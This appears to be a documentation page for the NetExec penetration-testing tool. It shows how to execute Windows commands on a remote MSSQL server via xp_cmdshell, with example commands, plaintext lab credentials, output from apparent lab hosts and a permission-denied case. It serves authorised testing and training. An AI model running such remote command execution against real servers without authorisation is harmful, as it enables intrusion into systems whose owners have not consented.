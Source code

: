 ```yaml
---
description: Execute Windows command using NetExec
---
```


# Windows command

### Execute Windows Command

This option use `xp_cmdshell` to exec command on the remote host.

```bash
nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)
MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------
MSSQL       10.10.10.59     1433   None             tally\sarah
```

If permission is **DENIED**:

```bash
MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)
MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.52     1433   None             None
```

{% hint style="info" %}
When playing with MSSQL, you can use the tool [MSDAT ](https://github.com/quentinhardy/msdat)from [quentinhardy](https://github.com/quentinhardy)
{% endhint %}

{% embed url="https://github.com/quentinhardy/msdat" %}
